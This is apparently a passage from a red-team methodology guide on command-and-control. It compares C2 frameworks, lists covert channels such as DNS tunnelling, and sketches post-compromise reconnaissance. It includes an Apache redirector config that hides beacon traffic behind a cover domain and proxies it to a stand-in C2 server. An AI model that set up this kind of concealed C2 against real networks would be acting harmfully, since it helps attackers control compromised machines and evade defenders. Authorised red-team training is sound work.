 ## Command & Control

### C2 Framework Selection
| Framework | Language | Strengths | Use Cases |
|-----------|----------|-----------|-----------|
| Cobalt Strike | Java | Commercial, mature | Professional red teams |
| Empire | Python | PowerShell focus | Windows environments |
| Covenant | C# | .NET integration | Windows/.NET shops |
| Sliver | Go | Open source | Cross-platform |

### Communication Protocols
- **HTTP/HTTPS**: Standard web traffic
- **DNS**: DNS tunneling for restrictive environments
- **Social Media**: Twitter, GitHub, Slack APIs
- **Email**: SMTP/IMAP communication
- **Cloud Services**: AWS, Azure, Google Cloud

### Infrastructure Design
```
Internet → CDN → Redirectors → C2 Servers → Payloads
```

#### Redirector Configuration
```apache
# Apache redirector
<VirtualHost *:80>
    ServerName legitimate-domain.com
    
    # Redirect beacon traffic to C2
    RewriteEngine On
    RewriteCond %{REQUEST_URI} ^/updates/.*$
    RewriteRule ^.*$ https://c2-server.com%{REQUEST_URI} [P]
    
    # Redirect other traffic to legitimate site
    RewriteRule ^.*$ https://legitimate-site.com%{REQUEST_URI} [R,L]
</VirtualHost>
```

---

## Actions on Objectives

### Intelligence Gathering
- **System Information**: Hardware, software, network configuration
- **User Accounts**: Local and domain accounts
- **Sensitive Data**: Databases, documents, credentials
- **Security Controls**: AV, EDR, monitoring tools
